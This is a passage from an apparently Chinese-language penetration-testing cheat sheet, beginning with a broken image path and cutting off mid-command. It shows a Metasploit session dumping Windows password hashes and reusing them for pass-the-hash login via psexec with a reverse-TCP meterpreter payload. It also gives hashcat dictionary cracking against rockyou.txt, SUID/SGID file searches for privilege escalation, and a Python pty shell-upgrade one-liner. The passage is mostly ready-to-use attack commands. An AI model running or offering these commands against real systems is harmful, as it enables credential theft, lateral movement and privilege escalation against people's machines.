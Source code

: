 
meterpreter &gt; run post/windows/gather/hashdump
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
msf &gt; use exploit/windows/smb/psexec
msf exploit(psexec) &gt; set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) &gt; set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) &gt; exploit
meterpreter &gt; s</pre>


### 18.Hashcat 密码破解

hashcat号称世界上最快的密码破解，世界上第一个和唯一的基于GPGPU规则引擎，免费多GPU（高达128个GPU），多哈希，多操作系统（Linux和Windows本地二进制文件），多平台（OpenCL和CUDA支持），多算法，资源利用率低，基于字典攻击，支持分布式破解等等。

下载地址 [https:// hashcat.net/files/hashc at-4.1.0.7z](https://link.zhihu.com/?target=https%3A//hashcat.net/files/hashcat-4.1.0.7z)

拓展学习： [https://www. freebuf.com/sectool/164 507.html](https://link.zhihu.com/?target=https%3A//www.freebuf.com/sectool/164507.html)

> 
<pre>hashcat -m 400 -a 0 hash /root/rockyou.txt</pre>


注：-m, —hash-type=NUM ：哈希类别，其NUM值参考其帮助信息下面的哈希类别值，其值为数字。如果不指定m值则默认指md5，例如-m 1800是sha512 Linux加密。

-a, –attack-mode=NUM：攻击模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击

### 19.查找SUID \ SGID root文件

> 
<pre>// 查找SUID root 文件
find / -user root -perm -4000 -print


// 查找SGID root 文件：
find / -group root -perm -2000 -print


// 查找任何人拥有的 SUID 和 SGID 文件：
find / -perm -4000 -o -perm -2000 -print


// 查找不属于任何用户的文件：
find / -nouser -print


// 查找不属于任何组的文件：
find / -nogroup -print


// 查找符号链接及其指向的内容：
find / -type l</pre>


### 20.Python Shell 

> 
<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>
